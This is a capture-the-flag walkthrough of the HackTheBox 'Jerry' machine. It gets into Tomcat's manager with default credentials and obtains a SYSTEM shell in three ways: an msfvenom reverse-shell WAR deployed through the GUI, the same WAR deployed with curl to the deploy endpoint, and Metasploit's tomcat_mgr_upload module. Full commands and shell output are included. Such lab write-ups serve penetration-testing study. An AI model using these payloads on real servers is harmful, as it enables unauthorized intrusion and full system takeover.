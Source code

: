 # Jerry: 10.10.10.95

## Hints

- The goal is to get access to the Tomcat Manager Application - default/known/discoverable creds are the way in!
- Get a foothold by getting Tomcat to run a malicious WAR file
- No privesc needed
- Flags are in a weird location?! Two for the price of one?

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

## 8080: Recon

From the nmap scan, we only have one port open, 8080. Also ran another port scan for all ports - but didn't discover anything else open. Browsing to port 8080 shows the default Tomcat landing page.

![8080 Home](screenshots/8080_home.png)

Started running the normal `gobuster` scan against the target.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.95:8080 -o gobuster_80_root_medium.log
```

While doing a `gobuster` scan, started searching for exploits against Tomcat, as version 7.0.88 is quite old. I used `searchsploit tomcat` and some Google foo - but couldn't find anything that matched, or was close to, the version on the target.

Found manager interface, as I knew the location and it was reported by `gobuster`. I know that Tomcat has password guessing protection - so didn't think that would be a suitable option. The main problem is the process is very slow when you avoid lockouts. After some trial and error, and some guessing, discovered the credentials that are provided as an example in the project documentation, and when you hit the manager endpoint and cancel out of the login.

- Username: `tomcat`
- Password: `s3cret`

With these, we can log in to the manager application.

![8080 Manager](screenshots/8080_manager.png)

At the bottom of the manager app, there is some information about the target machine. It is a Windows Server 2012 R2 64bit operating system with the hostname JERRY.

![8080 Manager Server Info](screenshots/8080_manager_info.png)

After finishing this machine and proofing this write-up, I decided to structure this one a little differently. At this point, we know the username and password for the full manager app, not just the host manager app. I also figured out that after you get remote code execution via Tomcat, you will have full Admin access - as Tomcat is run by `root`. So owning this machine is relatively easy. So I have written up a selection of approaches to getting remote code execution for my future reference, as well as to have the experience in trying a bunch of methods.

## Method 1: Deploy a Malicious WAR Using the Manager Application

In this method we are going to create a malicious WAR file using `msfvenom` and upload it to Tomcat using the web-based Application Manager. It is a good non-metasploit method. Using `msfvenom` to generate the WAR file is much easier than creating your own using a JSP payload - but have a look at my Tabby writeup if you would like to see that method.

Start by generating a malicious WAR file using `msfvenom`.

```none
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war > rev.war
```

On the Manager App, we can select to upload a WAR file using the "Deploy" section. Use the "WAR file to deploy" option, use "Browse" to select the WAR file you just created, then click the "Deploy" button.

![8080 Manager Deploy](screenshots/8080_manager_deploy.png)

You can execute the malicious was file by browsing to the target URL, which is the name of the WAR file. In my example, my WAR file was named `rev.war`, so I browsed to:

```none
http://10.10.10.95:8080/rev/
```

Make sure to have a netcat listener up to catch the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49202
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

If you want to remove the WAR file, navigate to the "Applications" section of the Tomcat Manager application, find the correct "Path" and use the "Undeploy" button. This method is pretty good and fast!

## Method 2: Deploy a Malicious WAR Using `curl`

If you paid attention to any of the URLs and requests in the last method, you might have noticed that Tomcat has some endpoints that are used when deploying and undeploying WAR files. This method is useful if you have Tomcat credentials, but that user doesn't have the `manager-gui` role - meaning you can't access the Tomcat Manager Application. But if you have the `manager-script` role you will be able to use this technique. This was the method you needed to use for the Tabby machine.

Start by generating a malicious WAR file using `msfvenom`.

```none
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war > rev.war
```

Deploy the malicious WAR file using `curl` - by making a POST request to the `deploy` endpoint.

```none
curl --user 'tomcat:s3cret' --upload-file rev.war http://10.10.10.95:8080/manager/text/deploy?path=/rev
```

Trigger the malicious WAR file, again using `curl`.

```none
curl http://10.10.10.95:8080/rev/
```

Make sure to have a netcat listener up to catch the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49202
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

If you want to remove the WAR file, we can issue another `curl` command to the `undeploy` endpoint with the correct name.

```none
curl --user 'tomcat:s3cret' http://10.10.10.95:8080/manager/text/undeploy?path=/rev
```

As an important note, Tomcat versions 7 and up need to have `text` in the request URL path. Tomcat versions below 7 do not need this addition. This method is also fast and easy, with the benefit that you could possibly script the process to make it automated - which would give you a similar point-and-click solution as you get with the Metasploit module.

## Method 3: Metasploit and `tomcat_mgr_upload`

As a final option, here is a Metasploit version that also works. This option is really simple because it autogenerates a WAR file on the fly, deploys it, and catches the incoming reverse shell request. Metasploit is great for things like this, fully automated and the code/method has been reviewed and tested by many users. The downside is that lots of the action and configuration are hidden away. For solutions like this, I always read the module source code to see what is going on under the hood.

Start by loading up the `msfconsole`. The load the Tomcat Manager Upload module.

```none
use multi/http/tomcat_mgr_upload
```

Then set the required options, as listed below.

```none
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.5
```

If we run the exploit, we get a nice reverse shell by default.

```none
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying FjSD0Y5mCEIn...
[*] Executing FjSD0Y5mCEIn...
[*] Undeploying FjSD0Y5mCEIn ...
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.95:49207) at 2021-08-15 15:32:39 +1200

meterpreter > 
```

Very fast and easy! Definitely the fastest out of all the options available. Metasploit has some good [documentation on using this module against different Tomcat versions](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md). Additionally, have a look at the [tomcat_mgr_upload.rb course code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_upload.rb) to get an idea of how the module works and how it is coded.

## Flag Location

Using any of the 3 methods listed above will get you a shell on the target machine with SYSTEM level access - so we can do anything. This machine was pretty weird, as it had weird flags. There was no "normal" user on the system, and instead, there were two flags owned by the Administrator in the following location.

```none
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
```

Done!

## Lessons Learned

- There are always multiple ways to go about CTFs and pentesting
- I always like the control you get from running manual exploits and setting everything up exactly how you want it

## Useful Resources

- [HackTheBox - Jerry by ippsec](https://www.youtube.com/watch?v=PJeBIey8gc4)
- [HTB: Jerry by 0xdf](https://0xdf.gitlab.io/2018/11/17/htb-jerry.html)
